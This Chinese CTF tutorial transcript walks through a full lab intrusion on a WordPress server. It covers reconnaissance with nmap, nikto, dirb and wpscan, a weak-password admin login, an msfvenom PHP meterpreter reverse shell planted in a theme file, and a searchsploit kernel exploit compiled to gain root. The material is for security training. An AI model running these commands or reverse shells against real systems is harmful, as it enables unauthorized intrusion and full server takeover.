







# CTF夺旗全套视频教程-网络安全 - P23：23.综合测试(高难度内核提权)WEB安全中级入侵

在本节课中，我们将要学习如何通过Web安全漏洞，逐步获取服务器权限，并最终通过内核提权技术将权限提升至root，从而完全控制目标服务器。这是一个从Web入侵到系统提权的完整流程。

## 概述：Web安全与渗透测试

随着Web技术的不断发展，社交网络、微博等一系列新型互联网产品诞生。基于Web环境搭建的应用和平台越来越多。Web业务的迅速发展也引起了黑客的强烈关注。接踵而至的，是Web安全危险日趋凸显。

黑客利用网站操作系统的漏洞和Web中间件服务的漏洞，得到服务器的控制权限。轻者可以篡改网页内容，重则窃取公司内部的重要数据。更为严重的，是在网页中植入恶意代码，例如植入挖矿木马，使用户为黑客免费贡献带宽和资源。

本节课的核心内容，就是演示如何通过Web入侵服务器，并利用系统漏洞获取最高权限。

## 实验环境介绍

在开始操作前，我们先明确实验环境。
*   **攻击机**：Kali Linux，IP地址为 `192.168.253.12`。
*   **靶场机器**：目标服务器，IP地址为 `192.168.253.14`。

我们的目标是获取靶场机器的root权限。在CTF比赛中，最终目的是找到并提交flag值。

## 第一步：信息收集与探测

上一节我们介绍了实验环境，本节中我们来看看如何对目标服务器进行初步的信息探测。信息收集是渗透测试的第一步，目的是发现目标开放的服务、端口及可能存在的弱点。

以下是信息收集常用的几种方法：

### 1. 使用Nmap扫描服务与版本

Nmap是一个强大的网络扫描工具。我们可以使用它来探测靶场机器开放的服务及其版本信息。

**基础扫描命令**：
```bash
nmap -sV 192.168.253.14
```
这条命令会扫描目标IP的常见端口，并尝试识别运行服务的版本。

**全方位深度扫描命令**：
```bash
nmap -T4 -A -v 192.168.253.14
```
*   `-T4`：设置扫描速度为较快模式。
*   `-A`：启用操作系统检测、版本检测、脚本扫描和路由跟踪。
*   `-v`：显示详细输出信息。

执行扫描后，我们可以获得目标开放的端口（如80端口的Web服务）、服务类型及版本等关键信息。

### 2. 使用Nikto扫描Web漏洞

探测完基础服务后，如果发现Web服务，我们可以使用Nikto来扫描Web应用特有的安全问题和敏感信息。

**Nikto扫描命令**：
```bash
nikto -h http://192.168.253.14
```
如果Web服务运行在非80端口（例如8080），则需要指定端口：
```bash
nikto -h http://192.168.253.14:8080
```
Nikto会检查目标网站是否存在过时的软件版本、危险的CGI文件、配置文件泄露等常见问题。

### 3. 使用Dirb扫描Web目录

除了漏洞，发现隐藏的目录和文件也至关重要。Dirb是一个Web目录扫描工具。

**Dirb扫描命令**：
```bash
dirb http://192.168.253.14
```
同样，非80端口需要指定。Dirb会使用字典对网站目录进行暴力猜解，可能发现后台登录页面、备份文件、配置文件等敏感路径。

## 第二步：漏洞分析与利用

在完成初步信息收集后，我们需要对扫描结果进行深入分析，找到可以利用的攻击点。本节中我们来看看如何从海量信息中挖掘出关键漏洞。

分析扫描结果时，应重点关注以下几点：
*   **登录页面**：是否存在SQL注入或弱口令。
*   **敏感文件**：如 `robots.txt`、配置文件、备份文件（如 `.bak`、`.sql`），其中可能包含数据库密码等敏感信息。
*   **CMS识别**：判断网站是否使用了已知的CMS（内容管理系统），如WordPress、Joomla等。
*   **源代码**：查看网页源代码，有时开发者会将注释、测试账号等信息留在代码中。

在本例的扫描结果中，我们发现了 `robots.txt` 文件，并进一步确认目标网站使用的是 **WordPress** CMS。

### 针对WordPress的深入探测

识别出CMS后，我们可以使用专门工具进行深度扫描。WPScan是一款针对WordPress的安全扫描工具。

**WPScan扫描命令**：
```bash
wpscan --url http://192.168.253.14 --enumerate t,p,u
```
*   `--enumerate t`：枚举主题（Themes）。
*   `--enumerate p`：枚举插件（Plugins）。
*   `--enumerate u`：枚举用户名（Users）。

扫描报告可能会显示：
1.  可用的用户名（如 `admin`）。
2.  已安装的插件和主题及其版本。
3.  已知的漏洞，例如SQL注入、跨站脚本（XSS）、文件上传漏洞等。

### 尝试弱口令登录

根据WPScan枚举出的用户名（例如 `admin`），我们可以尝试使用弱口令（如 `admin`、`password`、`123456`）登录WordPress后台（通常位于 `/wp-admin` 或 `/wp-login.php`）。

如果成功登录后台，我们就获得了网站的管理权限，这是向服务器植入Web Shell的关键一步。

## 第三步：获取Web Shell与初始立足点

成功进入后台后，我们的目标是从网站层面突破到服务器系统层面。本节中我们来看看如何上传一个Web Shell，从而在服务器上执行命令。

### 1. 生成Web Shell



我们使用Msfvenom（Metasploit框架的一部分）生成一个PHP类型的反向连接Web Shell。

**生成PHP反向Shell的命令**：
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw
```
*   `-p php/meterpreter/reverse_tcp`：指定Payload类型为PHP的Meterpreter反向TCP连接。
*   `LHOST=192.168.253.12`：指定监听主机的IP（攻击机Kali的IP）。
*   `LPORT=4444`：指定监听端口。
*   `-f raw`：输出原始格式的PHP代码。



执行后，将生成的PHP代码复制保存。

### 2. 在攻击机启动监听

在另一个终端，使用Metasploit框架启动监听，等待靶机执行Web Shell后反向连接回来。

**Metasploit监听设置**：
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST 192.168.253.12
set LPORT 4444
run
```

### 3. 上传并触发Web Shell

在WordPress后台，找到可以编辑或上传主题/插件文件的地方（例如 `外观` -> `主题编辑器`），将生成的PHP代码写入一个可访问的页面文件（如 `404.php`）并保存。

然后，在浏览器中访问这个文件的URL（如 `http://192.168.253.14/wp-content/themes/theme-name/404.php`）。此时，攻击机上的Metasploit监听会话会接收到一个来自靶机的Meterpreter连接。

执行 `whoami` 或 `id` 命令，可以看到当前权限可能是 `www-data` 或 `apache`，这是一个较低的Web服务用户权限。

## 第四步：内核提权至Root

获得初始Shell后，我们当前的权限通常很低。本节中我们来看看如何利用系统内核漏洞，将权限提升至最高的root。



### 1. 信息收集 - 确认系统版本



在获取的Meterpreter Shell或系统Shell中，首先查看系统内核版本信息。

**查看内核版本命令**：
```bash
uname -a
```
或者
```bash
cat /proc/version
```
假设返回信息包含 `Linux ubuntu 4.4.0-...`，这表明系统内核版本是 `4.4.0`。

### 2. 搜索可用提权漏洞



在攻击机（Kali）上，我们可以使用 `searchsploit` 工具在本地漏洞库中搜索针对特定内核版本的公开利用代码（Exploit）。



**搜索漏洞命令**：
```bash
searchsploit linux 4.4.0 privilege escalation
```
或者更精确地搜索：
```bash
searchsploit linux kernel 4.4.0
```
搜索结果会列出多个本地提权漏洞。我们选择一个进行利用，例如编号为 `41458` 的漏洞。

### 3. 编译并上传Exploit

在Kali上找到该漏洞的源代码文件。
```bash
searchsploit -m 41458
```
这会将 `41458.c` 文件复制到当前目录。然后使用GCC编译器将其编译成可执行程序。
```bash
gcc 41458.c -o shellroot
```
生成名为 `shellroot` 的可执行文件。

接下来，需要将这个提权程序上传到靶机上。在Meterpreter会话中：
```bash
upload /path/to/shellroot /tmp/
```
然后切换到靶机的Shell，进入 `/tmp` 目录，给文件添加执行权限。
```bash
cd /tmp
chmod +x shellroot
```

### 4. 执行Exploit提权

在靶机上运行提权程序。
```bash
./shellroot
```
如果漏洞利用成功，命令提示符通常会变成 `#`，表示我们已经获得了root权限。可以通过 `id` 和 `whoami` 命令进行确认。

**提权成功验证**：
```bash
id
# 输出应包含 uid=0(root) gid=0(root) groups=0(root)
whoami
# 输出应为 root
```

至此，我们已经完成了从Web入侵到系统内核提权的全过程，完全控制了目标服务器。在CTF比赛中，此时可以寻找并读取最终的flag文件。

## 总结

本节课中我们一起学习了Web安全中级入侵与内核提权的完整流程。我们首先通过Nmap、Nikto、Dirb等工具进行信息收集，识别出WordPress CMS。接着利用WPScan扫描和弱口令成功进入后台，并通过上传Web Shell获得了服务器的初始访问权限。最后，通过查询系统内核版本，利用Searchsploit找到对应的本地提权漏洞，编译并执行Exploit，成功将权限提升至root。

关键要点总结：
1.  **信息收集是基础**：全面探测开放端口、服务版本、Web目录和CMS信息。
2.  **漏洞利用是关键**：针对识别出的CMS或应用，尝试已知漏洞（如弱口令、插件漏洞）获取后台权限。
3.  **权限提升是目标**：获得初始Shell后，务必查看系统信息（`uname -a`），寻找内核或系统程序的提权漏洞（如使用 `searchsploit`），完成从普通用户到root的跨越。



在实战和CTF比赛中，需要保持清晰的思路：最终目的是获取root权限并找到flag。对每一步收集到的信息都要深入挖掘，不放过任何可能的弱点。